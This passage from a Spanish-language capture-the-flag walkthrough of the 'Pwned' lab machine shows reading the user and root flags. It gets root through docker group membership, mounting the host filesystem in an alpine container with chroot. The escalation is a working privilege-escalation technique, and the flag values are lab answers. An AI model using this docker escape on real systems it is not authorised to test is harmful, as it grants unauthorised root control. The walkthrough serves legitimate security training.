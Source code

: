 Ahora leeremos la segunda `flag` del usuario.

> user2.txt

```
711fdfc6caad532815a440f7f295c176

You are near to me. you found selena too.

Try harder to catch me
```

## Escalate Privileges

Si hacemos `id` veremos lo siguiente bastante interesante:

```shell
id
```

Info:

```
uid=1001(selena) gid=1001(selena) groups=1001(selena),115(docker)
```

Vemos que pertenece al grupo `docker` por lo que podremos realizar lo siguiente para ser `root`.

```shell
docker run -v /:/mnt --rm -it alpine chroot /mnt bash
```

Info:

```
root@b5197dec18e9:/# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que leeremos la `flag` de `root`.

> root.txt

```
4d4098d64e163d2726959455d046fd7c



You found me. i dont't expect this （◎ . ◎）

I am Ajay (Annlynn) i hacked your server left and this for you.

I trapped Ariana and Selena to takeover your server :)


You Pwned the Pwned congratulations :)

share the screen shot or flags to given contact details for confirmation 

Telegram   https://t.me/joinchat/NGcyGxOl5slf7_Xt0kTr7g

Instgarm   ajs_walker 

Twitter    Ajs_walker
```
